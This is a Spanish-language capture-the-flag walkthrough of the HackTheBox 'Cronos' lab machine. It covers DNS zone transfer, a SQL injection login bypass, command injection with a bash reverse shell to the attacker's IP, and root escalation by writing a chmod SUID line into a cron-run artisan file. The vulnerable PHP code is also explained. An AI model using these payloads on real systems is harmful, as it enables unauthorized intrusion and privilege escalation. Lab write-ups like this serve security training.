







# Descripción

- **Nivel:** Intermedia (Según HackTheBox).
- **Temas a tratar:** Enumeración, DNS AXFR, SQLi, Command Injection, Cron Jobs, PHP.
- **OS:** Linux.
- **Plataforma:** [HackTheBox](https://app.hackthebox.com/machines/11)
- **Fecha de retiro:** 26/05/2017
- **IP victima:** 10.10.10.13
- **IP atacante:** 10.10.14.16

---

## Enumeración

Comenzamos enumerando todos los puertos bajo el protocolo TCP de la máquina.
```bash
sudo nmap -p- -sS -Pn -n --min-rate 5000 -T4 -vv $Target -oG allports
Not shown: 63388 closed tcp ports (reset), 2144 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
53/tcp open  domain  syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```
Los puertos más interesantes en esta máquina son el 80 y el 53.
``` bash
sudo nmap -p22,53,80 -sVC $Target
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-12 14:01 CST
Nmap scan report for 10.10.10.13
Host is up (0.13s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## Puerto 80

A primera vista, no parece haber nada interesante en este puerto, así que lo agregamos al archivo /etc/hosts con el siguiente comando: 
`echo "10.10.10.13 cronos.htb" | sudo tee -a /etc/hosts`.
Con esto, ahora nos dirigimos al sitio *cronos.htb*.

:::note
Esto lo hacemos por que es algo común en plataformas tipo *CTF* tener que agregar el domino, revisando varios writeups, la manera para obtener el dominio del sito es mediante la herramienta nslookup.
:::
En este sitio no encontramos nada interesante, así que obtengamos información a partir del dominio.
## Puerto 53
Utilicemos la herramienta _dig_ para realizar una solicitud de _Transferencia de Zona (AXFR)_, para ver si nos comparte algún subdominio existente. En máquinas _CTF_, cuando existe este puerto abierto, es muy probable que se tenga que realizar este proceso. En este caso, nos devuelve lo siguiente:
```bash
dig AXFR cronos.htb @$Target

; <<>> DiG 9.20.1-1-Debian <<>> AXFR cronos.htb @10.10.10.13
;; global options: +cmd
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.		604800	IN	NS	ns1.cronos.htb.
cronos.htb.		604800	IN	A	10.10.10.13
admin.cronos.htb.	604800	IN	A	10.10.10.13
ns1.cronos.htb.		604800	IN	A	10.10.10.13
www.cronos.htb.		604800	IN	A	10.10.10.13
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 131 msec
;; SERVER: 10.10.10.13#53(10.10.10.13) (TCP)
;; WHEN: Thu Sep 12 23:03:10 CST 2024
;; XFR size: 7 records (messages 1, bytes 203)
```
Nos devuelve 3 subdominios diferentes. De ellos, el que más me resulta interesante es _admin.cronos.htb_, ya que esto suele ser un portal de administración, lo cual es una mala práctica. Se recomienda revisar todos los subdominios, ya que este podría ser un _rabbit hole_.
## Portal admin
Al ingresar, nos encontramos con lo siguiente:

No me da información útil para saber si se trata de un _CMS_ u otro sitio conocido donde podamos probar credenciales por defecto. Si este fuera el caso, usaríamos la herramienta [DefaultCreds Cheat Sheet](https://github.com/ihebski/DefaultCreds-cheat-sheet).
En este caso intenté con las credenciales clásicas `admin/admin` o `root/root`, pero ninguna funcionó. Esto indica que el portal es un _login propio_ y es muy probable que sea vulnerable a un [SQL Injection](https://portswigger.net/web-security/sql-injection).
Probé con las credenciales `admin/' or 1=1 -- -`, pero no funcionó. Luego intenté probar el _SQLi_ en ambos campos `' or 1=1 -- -/' or 1=1 -- -`.

**Bingo!!**
## Obtener Shell
Esta interfaz me recuerda a varias máquinas como [Perfection](https://app.hackthebox.com/machines/Perfection) o [CozyHosting](https://app.hackthebox.com/machines/559) (actualmente no tengo WriteUp's de estas máquinas, pero recomiendo revisar los videos de _Ippsec_ sobre ellas).
Volviendo a la máquina, intentemos un clásico [Command Injection](https://portswigger.net/web-security/os-command-injection) para verificar si el sitio es vulnerable, agregando después de la IP lo siguiente: `; sleep 5`.
:::note
Antes de probar algo en un sitio, debemos pensar en cómo funciona la aplicación web en segundo plano, para no romper algo en un entorno real. En este caso, sospecho que la aplicación está ejecutando el comando _traceroute 8.8.8.8_ en el fondo.
:::
Al ejecutar este comando, el sitio tardó 5 segundos en responder. Esto significa que el _command injection_ es posible. Entonces, enviemos directamente una _reverse shell_, agregando lo siguiente al campo existente: `; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.16/443 0>&1'`.

## Visualizando la vulnerabilidad y exfiltración de datos
Lo que se menciona en este punto no forma parte del proceso de resolución de la máquina, pero puede ser útil en un entorno real.
### Vulnerabilidad
#### SQLi
Al obtener acceso a la máquina, podemos visualizar el contenido del archivo _index.php_. Este archivo contiene el código fuente del sitio, y nos centraremos en la parte relevante donde el código es vulnerable a _SQLi_:
```php
$myusername = $_POST['username'];
$mypassword = md5($_POST['password']); 

$sql = "SELECT id FROM users WHERE username = '".$myusername."' and password = '".$mypassword."'";
$result = mysqli_query($db,$sql);
$row = mysqli_fetch_array($result,MYSQLI_ASSOC);

$count = mysqli_num_rows($result);
```
Podemos ver que el contenido del campo _username_ se almacena en la variable _myusername_, y la contraseña se hashea con MD5, razón por la cual el _SQLi_ no funcionaba en el campo de la contraseña.
En una ejecución normal, la consulta SQL sería la siguiente:
```MySQL
SELECT id FROM users WHERE username = 'admin' and password = 'SuperSecretPa$$word';
```
Pero al agregar una sentencia SQL en el campo del usuario, sucede lo siguiente:
```MySQL
SELECT id FROM users WHERE username = '' or 1=1 -- -' and password = 'password??';
```
Dado que el sitio deja todo el trabajo de verificar al usuario a la sentencia SQL, mientras esta devuelva una columna, nos permitirá acceder al sitio _welcome.php_, donde se encuentra la vulnerabilidad de _command injection_.
```php
$count = mysqli_num_rows($result);
// If result matched $myusername and $mypassword, table row must be 1 row
		
if($count == 1) {
```
#### Command Injection
Esta vulnerabilidad se encuentra en el sitio, ya que no se sanitiza el contenido que se envía.
Al revisar el código fuente, me encontré con otra forma de inyectar comandos, pero no nos enfocaremos en ese método, sino en el que se utiliza en este _WriteUp_, que es colocando `8.8.8.8; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.16/443 0>&1'`, donde se produce el _Command Injection_.
```php
if($_SERVER["REQUEST_METHOD"] == "POST") {
	//print_r($_POST);
	$command = $_POST['command'];
	$host = $_POST['host'];
	exec($command.' '.$host, $output, $return);
	//print_r($output);
}
```
En este código encontramos la función _exec_, que ejecuta comandos del sistema. Como mencionamos, este código no verifica que el valor ingresado en el campo _host_ sea solo una dirección IP, por lo que cuando agregamos _;_, le estamos diciendo que, una vez termine con ese comando, ejecute el siguiente.

Por ejemplo:
```bash
echo "Hola"; ls
```
En este caso, se ejecuta primero el comando `echo "Hola"` y luego el comando `ls`.
### Exfiltración de datos
Existe un archivo _config.php_ que contiene credenciales para una base de datos. En un entorno real, esto nos permitiría no solo obtener información de la base de datos, sino también, dependiendo de la configuración, leer y escribir archivos en la máquina.
```php
<?php
   define('DB_SERVER', 'localhost');
   define('DB_USERNAME', '*****');
   define('DB_PASSWORD', 'kEjd***************');
   define('DB_DATABASE', '*****');
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
?>
```
## Escalada de Privilegios
En este caso, con el usuario _www-data_ pudimos obtener la flag del archivo _user.txt_, por lo que es muy probable que la escalada de privilegios sea directamente hacia el usuario _root_.
Para esta máquina, utilicé la siguiente checklist: [Linux Privilege Escalation](https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist). También podemos emplear el script [LinPEAS](https://github.com/peass-ng/PEASS-ng/blob/master/linPEAS/README.md), aunque no soy muy fan de estas herramientas. Su uso en el OSCP aún no me queda del todo claro ([Revisar este sitio para más información](https://islinpeasallowed.site/) y [Mirar este artículo de OffSec](https://www.offsec.com/blog/understanding-penetration-testing-tools/)), por lo que prefiero no utilizarlo, por si acaso.
Inicialmente, no encontraremos nada interesante en esta máquina, pero utilizando la herramienta [pspy](https://github.com/DominicBreuker/pspy) para detectar algún proceso que se esté ejecutando periódicamente, encontramos lo siguiente:

Vemos un proceso ejecutado bajo el _UID_ 0, es decir, bajo el usuario _root_. Este proceso está ejecutando un archivo llamado _artisan_ mediante PHP. Primero, veamos si tenemos permisos de lectura o escritura.

Efectivamente, tenemos permisos tanto de lectura como de escritura, así que investiguemos qué hace este archivo. La documentación de [Laravel](https://laravel.com/docs/11.x/artisan) nos indica lo siguiente:

En la primera línea, se menciona que _artisan_ es una interfaz de línea de comandos que se incluye con _Laravel_, un framework de PHP. Al abrir este archivo, encontramos código PHP, lo que significa que podríamos intentar ejecutar algún comando del sistema usando funciones de PHP como _exec_ o _shell_exec_.
Probemos con _exec_ para otorgarnos permisos _SUID_ en bash y así escalar los privilegios directamente.
:::note
También podemos enviarnos una reverse shell  a otro puerto, pero prefiero variar un poco el método de escalada de privilegios.
:::
Archivo *artisan*:

Como mencionamos anteriormente, este archivo contiene código PHP, así que agregaremos una línea con la función _exec_ para otorgar permisos _SUID_ sobre _/bin/bash_ con el siguiente comando: `chmod u+s /bin/bash`.

Con esta línea agregada, guardamos el archivo y, tras esperar un momento, ejecutamos `bash -p` para iniciar Bash en modo privilegiado, lo que nos permite mantener los privilegios _SUID_ asignados al binario de Bash, si los tiene, sin importar el nivel del usuario.


---

### Happy Hacking!!
